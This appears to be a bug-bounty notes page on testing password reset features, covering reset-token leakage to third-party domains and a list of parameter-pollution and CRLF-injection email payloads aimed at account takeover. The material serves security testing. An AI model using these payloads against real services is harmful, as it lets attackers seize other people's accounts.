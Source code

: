 ```yaml
---
title: 密码重置
toc: true
date: 2021-04-14 14:14:26
tags: Summary
categories: [100 Cyber security, 110 Bug bounty, 112 Ideas]
---
```


Mindmap https://kathan19.gitbook.io/howtohunt/password-reset-functionality/password_reset_functionality
1. password reset token leakage
      1. Sent a password reset request using forget password
      2. Check your email
      3. Copy your reset page link and paste in another tab and make burp intercept on.
      4. Look for every request if you find similar token that is in reset link with other domain like: bat.bing.com or facebook.com
      5. Then there is reset password token leakage.
1. account takeover by password reset functionality
      1. email= victim@gmail.com&email=attacker@gmil.com
      2. email= victim@gmail.com%20email=attacker@gmil.com
      3. email= victim@gmail.com |email=attacker@gmil.com
      4. email= victim@gmail.com%0d%0acc:attacker@gmil.com
      5. email= victim@gmail.com&code= my password reset token
1. https://docs.google.com/presentation/d/1QzBl3k3n2q44ULyfZgr_gPZexj8nF5vD8JrS5AUJRbs/edit#slide=id.ga30203dab9_1_64
